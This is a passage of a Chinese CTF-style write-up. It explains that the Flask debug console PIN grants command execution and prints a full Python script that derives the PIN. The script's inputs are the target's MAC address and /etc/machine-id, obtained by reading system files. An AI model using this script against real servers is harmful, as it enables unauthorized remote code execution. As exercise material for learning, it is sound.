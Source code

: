 
这里上述命令写法第二种方法的大佬给出了不同解：

https://blog.csdn.net/qq_45557476/article/details/124011030

读取debug控制板的pin码

pin码也就是flask在开启debug模式下，进行代码调试模式的进入密码，需要正确的PIN码才能进入调试模式

可见如果获得pin码，我们就能直接执行命令:

pin码脚本：

import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377871838',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '4e2d4390ee2a9b57df253521f44301973efc74e35a300a02b4e509d60989543b'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

里面需要的参数：
